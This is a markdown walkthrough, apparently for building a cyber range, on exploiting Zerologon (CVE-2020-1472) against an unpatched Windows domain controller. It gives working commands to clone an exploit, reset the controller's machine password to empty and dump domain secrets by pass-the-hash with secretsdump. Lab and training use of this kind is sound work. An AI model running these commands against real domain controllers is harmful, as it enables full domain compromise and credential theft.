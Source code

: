 # Zerologon (CVE-2020-1472)
## Summary

This vulnerability stems from a flaw in a cryptographic authentication scheme used by the Netlogon Remote Protocol, which among other things can be used to update computer passwords. This flaw allows attackers to impersonate any computer, including the domain controller itself, and execute remote procedure calls on their behalf. 

## Prerequisites

This exploit requires at least one DC to be set up and configured. The DC *must* not have the patch, i.e. install the DC from before August 11th, 2020, or attempt to delete all of the KB security updates which may not work. **Windows Server 2008 R2 SP1** requires an ESU license for the patch to apply, which is atypical, making this version the ideal target for configuring a range with this vulnerability.

## Setup

If the prerequisites have been met, then any Zerologon exploit should work out of the box.

## Execution

### Method 1 - Changing DC's Machine Account Password

Clone the repository at https://github.com/risksense/zerologon, by either downloading the zip file or running the following command:

```bash
git clone https://github.com/risksense/zerologon
```

If there are any issues, update or reinstall impacket. Then, in the same directory as the cloned repository, run the following command:

```bash
python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR
```

Then, the DC's machine accounts hash is set to `31d6cfe0d16ae931b73c59d7e0c089c0`, and the old hash should be printed to the screen, note this for later. This can be used with impacket's pass-the-hash functionality. I.e. dumping secret:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```

To reinstall the old machine password, run the following command:

```bash
python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH
```

#### Indicators of Compromise

TODO
